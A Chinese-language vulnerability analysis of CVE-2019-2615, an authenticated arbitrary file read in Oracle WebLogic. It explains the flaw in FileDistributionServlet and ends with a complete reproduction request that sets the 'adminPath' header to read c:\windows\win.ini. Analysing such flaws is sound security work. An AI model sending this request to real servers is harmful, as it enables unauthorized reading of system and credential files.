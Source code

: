 （CVE-2019-2615）Weblogic 任意文件读取漏洞
==========================================

一、漏洞简介
------------

攻击者可以在已知用户名密码的情况下读取WebLogic服务器中的任意文件。

二、漏洞影响
------------

Weblogic 10.3.6.0Weblogic 12.1.3.0Weblogic 12.2.1.2Weblogic 12.2.1.3

三、复现过程
------------

### 漏洞分析

该功能的关键代码在
`weblogic.management.servlet.FileDistributionServlet`的doGet()方法中：

    public void doGet(final HttpServletRequest var1, final HttpServletResponse var2) throws ServletException, IOException {
        AuthenticatedSubject var3 = this.authenticateRequest(var1, var2);
        if(var3 != null) {
            final String var4 = var1.getHeader("wl_request_type");
            if(var3 != KERNEL_ID) {
                AdminResource var5 = new AdminResource("FileDownload", (String)null, var4);
                if(!this.am.isAccessAllowed(var3, var5, (ContextHandler)null)) {
                    ManagementLogger.logErrorFDSUnauthorizedDownloadAttempt(var3.getName(), var4);
                    var2.sendError(401);
                    return;
                }
            }

            try {
                if(debugLogger.isDebugEnabled()) {
                    debugLogger.debug("---- >doGet incoming request: " + var4);
                }

                if(var4.equals("wl_xml_entity_request")) {
                    this.doGetXMLEntityRequest(var1, var2);
                } else if(var4.equals("wl_jsp_refresh_request")) {
                    this.doGetJspRefreshRequest(var1, var2);
                } else if(var4.equals("file")) {
                    this.doGetFile(var1, var2);
                } else if(!var4.equals("wl_init_replica_request") && !var4.equals("wl_file_realm_request") && !var4.equals("wl_managed_server_independence_request")) {
                    var2.addHeader("ErrorMsg", "Bad request type");
                    String var10 = Utils.encodeXSS(var4);
                    var2.sendError(400, "Bad request type: " + var10);
                    ManagementLogger.logBadRequestInFileDistributionServlet(var4);
                } else {
                    ......
                    ......
                    }
                }
            } catch (Exception var9) {
                if(!Kernel.isInitialized()) {
                    throw new AssertionError("kernel not initialized");
                }

                ManagementLogger.logErrorInFileDistributionServlet(var4, var9);
            }

        }
    }

代码也比较简单，先取request中header的参数\"wl\_request\_type\"的值，然后判断如果该值等于"wl\_xml\_entity\_request"、"wl\_jsp\_refresh\_request"、"file"\...\...则分别调用各自的方法，进入下一步判断。我们看一下如果wl\_request\_type的值为"wl\_jsp\_refresh\_request"，进入doGetJspRefreshRequest()方法。我们跟入doGetJspRefreshRequest()方法：

    private void doGetJspRefreshRequest(HttpServletRequest var1, HttpServletResponse var2) throws IOException {
         String var3 = var1.getHeader("adminPath");

         try {
             FileInputStream var4 = new FileInputStream(var3);

             try {
                 var2.setContentType("text/plain");
                 var2.setStatus(200);
                 this.returnInputStream(var4, var2.getOutputStream());
             } finally {
                 var4.close();
             }

         } catch (IOException var10) {
             String var5 = "I/O Exception getting resource: " + var10.getMessage();
             var2.addHeader("ErrorMsg", var5);
             var2.sendError(500, var5);
         }
     }

doGetJspRefreshRequest()方法中的"adminPath"也是request中的header参数，我们在Post包中传入要读取的文件。进入该方法中，直接使用FileInputStream类进行文件读取，故造成了所谓的"任意文件读取"漏洞。

### 漏洞复现

    GET /bea_wls_management_internal2/wl_management HTTP/1.1
    Host: www.0-sec.org:7001
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    username:weblogic
    password:admin123456
    wl_request_type:wl_jsp_refresh_request
    adminPath:c:\windows\win.ini
    Upgrade-Insecure-Requests: 1

![M\~P\`JFB4OPB3JUN7FJ\_F.png](./resource/(CVE-2019-2615)Weblogic任意文件读取漏洞/media/rId26.png)
